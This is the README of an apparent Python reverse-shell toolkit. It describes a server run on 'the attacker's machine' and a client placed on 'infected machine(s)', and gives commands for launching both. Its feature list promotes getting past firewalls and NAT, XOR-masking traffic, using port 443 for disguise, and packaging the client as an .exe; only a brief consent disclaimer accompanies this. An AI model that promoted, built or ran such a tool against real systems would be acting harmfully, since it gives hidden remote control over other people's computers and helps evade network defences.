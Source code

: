 # reverse_shell
A reverse shell 

DISCLAIMER: I really shouldn't have to say this but DON'T USE THIS WITHOUT THE COMPUTER OWNER'S CONSENT

Features:

-Reverse TCP/IP connection, circumventing victim-side firewall roules (in most cases) and NAT limitations.

-Trafic Masking. All traffic is sent XORed and not in clear text. For better masking swap port to 443.[1]

-Support for multiple connections. The Server part is built with support for multiple simulatneus connections, with Hosts list managment.

-Client script is tested and is compatible with PyInstaller (can be made into .exe).[2]

Deployment:

-The server is situated at the attacker's machine and running to accept connections

-The client is situated in the infected machine(s) and will initiate the connection and wait for input.

Execution:

In their current stated the scripts are executed as follows

-Server: python rev_shell_server.py (max_connections) 
max_connections defaults to 5 if left blank

-Client: python rev_shell_client.py (server_ip)

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

*[1]The idead for XORing as well as the skeleton for the client came from (http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check primalsecurity.net's perfect blogpost about producing an .exe
